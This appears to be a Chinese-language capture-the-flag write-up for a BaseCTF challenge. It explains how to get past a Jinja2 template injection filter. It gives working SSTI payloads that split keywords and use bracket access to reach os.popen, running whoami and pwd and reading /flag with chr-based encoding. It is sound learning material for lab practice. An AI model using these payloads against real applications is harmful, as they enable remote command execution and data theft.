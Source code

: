 发现屏蔽了

```
+ - * / . {{ }} __ : " \ 和class等关键词

关键词通过cl''ass绕过

{{}}使用{%print%}绕过

__屏蔽选择  _''_绕过

.使用[]绕过
{{().__class__}} 可替换为:{{()["__class__"]}}

```

然后将经典句式替换(当然，具体位置和命令都可以修改)

```
{%print(c.__class__.__mro__[3].__subclasses__()[137].__init__.__globals__['popen']('whoami').read())%}进行替换
```

但是这里不知到为什么

```
__mro__失效了，于是运用基础的__base__
```

用一次base找到了obj，然后从obj用__subclasses__()进入经典变量popen所在地<class 'os._wrap_close'>

![](https://s2.loli.net/2024/11/17/HaWXK5RjcteZf7w.png)

之后按照经典套路进入popen执行命令即可

用init初始化，用global进入全局变量，选择popen，执行pwn命令并加上read读出指令让print打印出来

```
BaseCTF{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen']('pwd')['rea''d']())%}
```

然后考虑到/被ban，使用chr绕过即可

```
BaseCTF{% set cmd='cat '~'%c'%(47)~'flag' %} {%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen'](cmd)['rea''d']())%}
```

而为了修改方便，popen中的命令使用cmd变量即可

![](https://s2.loli.net/2024/11/17/vaTI4uZXSn6RDwh.png)
